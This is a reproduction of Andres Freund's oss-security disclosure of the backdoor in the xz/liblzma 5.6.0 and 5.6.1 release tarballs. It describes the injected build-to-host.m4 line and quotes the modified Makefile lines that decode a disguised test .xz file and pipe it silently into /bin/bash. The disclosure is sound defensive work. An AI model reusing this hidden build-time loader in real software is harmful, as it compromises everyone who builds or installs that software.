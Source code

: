 # Openwall post by Andres Freund
Date: Fri, 29 Mar 2024 08:51:26 -0700  
From: Andres Freund <andres@...razel.de>  
To: oss-security@...ts.openwall.com  
Subject: backdoor in upstream xz/liblzma leading to ssh server compromise

Hi,

After observing a few odd symptoms around liblzma (part of the xz package) on Debian sid installations over the last weeks (logins with ssh taking a lot of CPU, valgrind errors) I figured out the answer:

The upstream xz repository and the xz tarballs have been backdoored.

At first I thought this was a compromise of debian's package, but it turns out to be upstream.

---

### == Compromised Release Tarball ==

One portion of the backdoor is *solely in the distributed tarballs*.  
For easier reference, here's a link to debian's import of the tarball, but it is also present in the tarballs for 5.6.0 and 5.6.1:

- https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63

That line is *not* in the upstream source of build-to-host, nor is
build-to-host used by xz in git.  
However, it is present in the tarballs released upstream, except for the "source code" links, which I think github generates directly from the repository contents:

- https://github.com/tukaani-project/xz/releases/tag/v5.6.0
- https://github.com/tukaani-project/xz/releases/tag/v5.6.1

This injects an obfuscated script to be executed at the end of configure.  
This script is fairly obfuscated and data from "test" .xz files in the repository.

This script is executed and, if some preconditions match, modifies
$builddir/src/liblzma/Makefile to contain

```bash
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```

which ends up as

```bash
...
;sed rpath ../../../tests/files/bad-3-corrupt_lzma2.xz
| tr "	 \-_" " 	_\-"
| xz -d
| /bin/bash >/dev/null 2>&1;
...
```
